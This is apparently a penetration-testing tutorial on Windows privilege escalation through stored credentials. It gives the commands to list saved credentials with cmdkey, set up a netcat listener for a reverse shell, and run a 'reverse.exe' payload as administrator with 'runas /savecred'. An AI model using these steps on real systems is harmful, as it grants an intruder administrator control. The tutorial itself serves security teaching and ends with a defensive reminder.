





Introduction
In this article, we will cover how to escalate privileges on a Windows system using Stored Credentials. This technique will span multiple parts. Let us first understand the concept before applying it.
Windows has a built-in command called runas. This command allows you to execute commands on the system with the privileges of any other user. However, it normally requires the target user's password before it will execute any command on their behalf.
Here is where the vulnerability comes in: Windows allows users to save their passwords on the system. If a user (particularly an administrator) has saved their password, then any other user on the system can execute commands with that user's privileges using runas -- without being prompted for the password, because it is already stored.
In the scenario we are going to walk through, we will check which users have their passwords saved on the system. If we find that an administrator has a stored password, we will use the runas command to execute our malicious payload with the administrator's privileges.
Walkthrough
Step 1: Initial Access
As usual, we start with a limited-privilege user account on the target system (the user account). For this technique, we will not need WinPEAS since the process is straightforward.

Step 2: Listing Stored Credentials
First, we check which users have their passwords stored on the system by running:
cmdkey /list
The output shows all saved credentials on the system. We observe that the administrator account has a stored password.

Step 3: Setting Up a Listener
Before executing the payload, we need to set up a listener on our attacker machine to catch the reverse shell connection. We use netcat:
nc -lvnp <port>
Replace <port> with the port number configured in your malicious payload.

Step 4: Executing the Payload with runas
Now we use the runas command with the /savecred flag, which tells Windows to use the stored credentials instead of prompting for a password. We specify the admin user and the path to our malicious reverse shell executable:
runas /savecred /user:admin "C:\Users\user\Desktop\reverse.exe"
The /savecred flag is the key here -- it instructs runas to use the credentials that were previously saved for the specified user. Since the admin password is stored, the command executes our payload with the administrator's privileges without asking for a password.

Result
We have successfully obtained the highest privilege level on the system using the Stored Credentials technique. The attack works because the administrator saved their password on the system, and the runas /savecred command allows any user to leverage those saved credentials to execute arbitrary commands with the administrator's privileges. This is a reminder to never store credentials on shared systems.
